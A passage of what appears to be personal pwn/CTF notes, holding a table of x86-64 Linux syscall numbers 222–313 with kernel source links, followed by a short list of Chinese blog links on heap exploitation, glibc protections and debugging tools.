| 222        | timer_create           | sys_timer_create           | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 223        | timer_settime          | sys_timer_settime          | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 224        | timer_gettime          | sys_timer_gettime          | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 225        | timer_getoverrun       | sys_timer_getoverrun       | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 226        | timer_delete           | sys_timer_delete           | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 227        | clock_settime          | sys_clock_settime          | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 228        | clock_gettime          | sys_clock_gettime          | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 229        | clock_getres           | sys_clock_getres           | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 230        | clock_nanosleep        | sys_clock_nanosleep        | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 231        | exit_group             | sys_exit_group             | [kernel/exit.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/exit.c) |
| 232        | epoll_wait             | sys_epoll_wait             | [fs/eventpoll.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventpoll.c) |
| 233        | epoll_ctl              | sys_epoll_ctl              | [fs/eventpoll.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventpoll.c) |
| 234        | tgkill                 | sys_tgkill                 | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 235        | utimes                 | sys_utimes                 | [fs/utimes.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/utimes.c) |
| 236        | vserver                |                            | NOT IMPLEMENTED                                              |
| 237        | mbind                  | sys_mbind                  | [mm/mempolicy.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mempolicy.c) |
| 238        | set_mempolicy          | sys_set_mempolicy          | [mm/mempolicy.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mempolicy.c) |
| 239        | get_mempolicy          | sys_get_mempolicy          | [mm/mempolicy.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mempolicy.c) |
| 240        | mq_open                | sys_mq_open                | [ipc/mqueue.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/mqueue.c) |
| 241        | mq_unlink              | sys_mq_unlink              | [ipc/mqueue.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/mqueue.c) |
| 242        | mq_timedsend           | sys_mq_timedsend           | [ipc/mqueue.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/mqueue.c) |
| 243        | mq_timedreceive        | sys_mq_timedreceive        | [ipc/mqueue.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/mqueue.c) |
| 244        | mq_notify              | sys_mq_notify              | [ipc/mqueue.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/mqueue.c) |
| 245        | mq_getsetattr          | sys_mq_getsetattr          | [ipc/mqueue.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/ipc/mqueue.c) |
| 246        | kexec_load             | sys_kexec_load             | [kernel/kexec.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/kexec.c) |
| 247        | waitid                 | sys_waitid                 | [kernel/exit.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/exit.c) |
| 248        | add_key                | sys_add_key                | [security/keys/keyctl.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/security/keys/keyctl.c) |
| 249        | request_key            | sys_request_key            | [security/keys/keyctl.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/security/keys/keyctl.c) |
| 250        | keyctl                 | sys_keyctl                 | [security/keys/keyctl.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/security/keys/keyctl.c) |
| 251        | ioprio_set             | sys_ioprio_set             | [fs/ioprio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/ioprio.c) |
| 252        | ioprio_get             | sys_ioprio_get             | [fs/ioprio.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/ioprio.c) |
| 253        | inotify_init           | sys_inotify_init           | [fs/notify/inotify/inotify_user.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/notify/inotify/inotify_user.c) |
| 254        | inotify_add_watch      | sys_inotify_add_watch      | [fs/notify/inotify/inotify_user.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/notify/inotify/inotify_user.c) |
| 255        | inotify_rm_watch       | sys_inotify_rm_watch       | [fs/notify/inotify/inotify_user.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/notify/inotify/inotify_user.c) |
| 256        | migrate_pages          | sys_migrate_pages          | [mm/mempolicy.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mempolicy.c) |
| 257        | openat                 | sys_openat                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 258        | mkdirat                | sys_mkdirat                | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 259        | mknodat                | sys_mknodat                | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 260        | fchownat               | sys_fchownat               | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 261        | futimesat              | sys_futimesat              | [fs/utimes.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/utimes.c) |
| 262        | newfstatat             | sys_newfstatat             | [fs/stat.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/stat.c) |
| 263        | unlinkat               | sys_unlinkat               | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 264        | renameat               | sys_renameat               | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 265        | linkat                 | sys_linkat                 | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 266        | symlinkat              | sys_symlinkat              | [fs/namei.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/namei.c) |
| 267        | readlinkat             | sys_readlinkat             | [fs/stat.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/stat.c) |
| 268        | fchmodat               | sys_fchmodat               | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 269        | faccessat              | sys_faccessat              | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 270        | pselect6               | sys_pselect6               | [fs/select.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/select.c) |
| 271        | ppoll                  | sys_ppoll                  | [fs/select.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/select.c) |
| 272        | unshare                | sys_unshare                | [kernel/fork.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/fork.c) |
| 273        | set_robust_list        | sys_set_robust_list        | [kernel/futex.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/futex.c) |
| 274        | get_robust_list        | sys_get_robust_list        | [kernel/futex.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/futex.c) |
| 275        | splice                 | sys_splice                 | [fs/splice.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/splice.c) |
| 276        | tee                    | sys_tee                    | [fs/splice.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/splice.c) |
| 277        | sync_file_range        | sys_sync_file_range        | [fs/sync.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/sync.c) |
| 278        | vmsplice               | sys_vmsplice               | [fs/splice.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/splice.c) |
| 279        | move_pages             | sys_move_pages             | [mm/migrate.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/migrate.c) |
| 280        | utimensat              | sys_utimensat              | [fs/utimes.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/utimes.c) |
| 281        | epoll_pwait            | sys_epoll_pwait            | [fs/eventpoll.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventpoll.c) |
| 282        | signalfd               | sys_signalfd               | [fs/signalfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/signalfd.c) |
| 283        | timerfd_create         | sys_timerfd_create         | [fs/timerfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/timerfd.c) |
| 284        | eventfd                | sys_eventfd                | [fs/eventfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventfd.c) |
| 285        | fallocate              | sys_fallocate              | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 286        | timerfd_settime        | sys_timerfd_settime        | [fs/timerfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/timerfd.c) |
| 287        | timerfd_gettime        | sys_timerfd_gettime        | [fs/timerfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/timerfd.c) |
| 288        | accept4                | sys_accept4                | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 289        | signalfd4              | sys_signalfd4              | [fs/signalfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/signalfd.c) |
| 290        | eventfd2               | sys_eventfd2               | [fs/eventfd.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventfd.c) |
| 291        | epoll_create1          | sys_epoll_create1          | [fs/eventpoll.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/eventpoll.c) |
| 292        | dup3                   | sys_dup3                   | [fs/file.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/file.c) |
| 293        | pipe2                  | sys_pipe2                  | [fs/pipe.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/pipe.c) |
| 294        | inotify_init1          | sys_inotify_init1          | [fs/notify/inotify/inotify_user.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/notify/inotify/inotify_user.c) |
| 295        | preadv                 | sys_preadv                 | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 296        | pwritev                | sys_pwritev                | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 297        | rt_tgsigqueueinfo      | sys_rt_tgsigqueueinfo      | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 298        | perf_event_open        | sys_perf_event_open        | [kernel/events/core.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/events/core.c) |
| 299        | recvmmsg               | sys_recvmmsg               | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 300        | fanotify_init          | sys_fanotify_init          | [fs/notify/fanotify/fanotify_user.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/notify/fanotify/fanotify_user.c) |
| 301        | fanotify_mark          | sys_fanotify_mark          | [fs/notify/fanotify/fanotify_user.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/notify/fanotify/fanotify_user.c) |
| 302        | prlimit64              | sys_prlimit64              | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 303        | name_to_handle_at      | sys_name_to_handle_at      | [fs/fhandle.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/fhandle.c) |
| 304        | open_by_handle_at      | sys_open_by_handle_at      | [fs/fhandle.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/fhandle.c) |
| 305        | clock_adjtime          | sys_clock_adjtime          | [kernel/posix-timers.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/posix-timers.c) |
| 306        | syncfs                 | sys_syncfs                 | [fs/sync.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/sync.c) |
| 307        | sendmmsg               | sys_sendmmsg               | [net/socket.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/net/socket.c) |
| 308        | setns                  | sys_setns                  | [kernel/nsproxy.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/nsproxy.c) |
| 309        | getcpu                 | sys_getcpu                 | [kernel/sys.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/sys.c) |
| 310        | process_vm_readv       | sys_process_vm_readv       | [mm/process_vm_access.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/process_vm_access.c) |
| 311        | process_vm_writev      | sys_process_vm_writev      | [mm/process_vm_access.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/process_vm_access.c) |
| 312        | kcmp                   | sys_kcmp                   | [kernel/kcmp.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/kcmp.c) |
| 313        | finit_module           | sys_finit_module           | [kernel/module.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/module.c) |

## 链接

[pwn知识——劫持IO_file_jumps攻击和environ攻击 - Falling_Dusk - 博客园](https://www.cnblogs.com/falling-dusk/p/18187251)

[文章 - 基于environ变量的堆题攻击栈空间 - 先知社区](https://xz.aliyun.com/news/16003?time__1311=eqUxnQiti%3DY7wq05DI72QxBmTQ0QzdzF4D&u_atoken=1f6ee1c44dcd1edc4c61ead78e3abbde&u_asig=1a0c380917408899532613739e00f7)

[gdb调试 | pwndbg+pwndbg联合使用_fmtarg-CSDN博客](https://blog.csdn.net/weixin_43092232/article/details/105648769)

[★pwn 更改pwn题libc保姆级教程★_pwn libc-CSDN博客](https://blog.csdn.net/j284886202/article/details/142406824)

[不同版本glibc的堆管理和新增保护机制 - Luexp](https://nopnoping.github.io/不同版本glibc的堆管理和新增保护机制/)

